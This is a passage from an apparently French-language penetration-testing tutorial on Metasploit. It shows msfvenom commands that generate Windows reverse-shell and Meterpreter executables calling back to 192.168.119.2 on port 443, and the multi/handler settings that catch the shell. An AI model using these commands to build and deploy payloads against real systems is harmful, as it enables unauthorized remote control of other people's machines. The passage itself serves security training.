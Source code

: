 Dans meterpreter, vous pouvez utiliser la commande suivante pour voir tous les payloads disponibles : 
```sh
show payloads
```

### msfvenom

Metasploit fournir aussi la possibilité d'exporter les payloads dans différents formats (binaire Windows et Linux, webshells etc) grâce à msfvenom.
msfvenom est un outil standalone qui permet de générer ces payloads.

Nous pouvons par exemple commencer par créer un payload pour un Windows.
Si nous ne savons pas quels payloads utilisés, nous pouvons commencer par lister les payloads disponibles pour Windows :
```sh
msfvenom -l payloads --platform windows --arch x64
```

On peut choisir entre un staged et un non staged.
Dans cette exemple, on utilisera un non staged.

On utilise l'option `-p` pour spécifier le payload. On le configure ensuite avec les options LHOST et LPORT pour spécifier au payload où est-ce qu'il doit retourner son shell.
On utiliser l'option `-f` pour spécifier le format du payload et `-o` pour le fichier de sortie.

```sh
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.119.2 LPORT=443 -f exe -o nonstaged.exe
```

## Récupérer un reverse-shell avec Meterpreter

Il existe de nombreuses façons de récupérer un shell avec Meterpreter mais voici une méthode universelle.

Premièrement, le payload créer doit être un payload `meterpreter`.
Exemple : 
```sh
msfvenom -p windows/x64/meterpreter_reverse_https LHOST=192.168.119.2 LPORT=443 -f exe -o nonstaged.exe
```

Dans un second temps, lancer msfconsole et utiliser le module `multi/handler`.
Ce module permet de récupérer n'importe quel type de shell, tant qu'il y a été conçu pour meterpreter.
```sh
use multi/handler
```

Il faut ensuite configurer les bonnes options afin de bien réceptionner le shell.
Premièrement il faut configurer le même payload que pour le msfvenom : 
```sh
set PAYLOAD windows/x64/meterpreter_reverse_https
```

Ensuite, il faut configurer les options LHOST et LPORT :
```sh
set LHOST 192.168.119.2
set LPORT 443
```
